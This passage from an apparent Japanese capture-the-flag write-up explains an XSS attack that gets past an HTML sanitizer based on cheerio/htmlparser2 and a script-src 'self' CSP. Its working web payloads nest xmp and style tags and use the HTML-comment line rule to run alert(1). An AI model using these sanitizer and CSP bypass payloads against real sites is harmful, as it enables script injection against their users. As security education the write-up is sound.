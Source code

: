 3. ブラウザは次のように解釈する

    <div class="code-block-container"><pre class="language-html"><code class="language-html code-line" data-line="627"><span class="token tag"><span class="token tag"><span class="token punctuation">&lt;</span>xmp</span><span class="token punctuation">></span></span>
      &lt;xmp&gt;&lt;a&gt;&lt;/a&gt;&lt;style&gt; // 文字列
    <span class="token tag"><span class="token tag"><span class="token punctuation">&lt;/</span>xmp</span><span class="token punctuation">></span></span>
    <span class="token tag"><span class="token tag"><span class="token punctuation">&lt;</span>script</span> <span class="token attr-name">src</span><span class="token attr-value"><span class="token punctuation attr-equals">=</span><span class="token punctuation">"</span>X<span class="token punctuation">"</span></span><span class="token punctuation">></span></span>
    <span class="token comment">&lt;/style&gt;&lt;/xmp&gt;&lt;/xmp&gt; // 不要な閉じタグ</span></code></pre></div>


これで、ブラウザがスクリプトタグを読み込めるようになった。

### Step 3: 外部スクリプトの読み込み

最後にscriptタグを通して、外部スクリプトを読み込まなければならない。CSPは`script-src 'self'`なので、同じサイト内からしかスクリプトを読むことができない。

`/?html=alert(1)`をスクリプトとして読み込むと、
```
<html><head></head><body>alert(1)</body></html>
```
のような結果が返ってきてしまう。もちろん、これはjavascriptとしては不正なので、`alert(1)`は実行されない。

ブラウザ上のjavascriptには、`<!--`から始まる行をコメントとして扱うという[仕様](https://tc39.es/ecma262/2024/#prod-annexB-SingleLineHTMLOpenComment)がある。また、`/?html=<!--foo-->bar`のようにコメントから始めると、
```
<!--foo--><html><head></head><body>bar</body></html>
```
のように結果もコメントからはじまるようになるため、その行を無視することができる。

cheerioもhtmlparser2も、タグ内やタグ間の改行は削除してしまうが、テキスト内の改行は削除しないので、Step 2のペイロードをそのまま利用して

```
<!--a--><xmp><xmp><a></a id=</xmp><style></xmp>
alert(1)//</script></style>
```

のようなペイロードを送ると、
```javascript
<!--a--><html><head></head><body><xmp><xmp><a></a><style></xmp>
alert(1)//</script></style></xmp></xmp></body></html>
```
となる。これは正当なjavascriptのため、`alert(1)`が実行される。

::: details ちなみに
discordで見ていたら、コメント内の改行も削除されないので、次で良かったことが分かった。そらそうだ。

```
<!-- 
alert(1);
//-->
```
:::
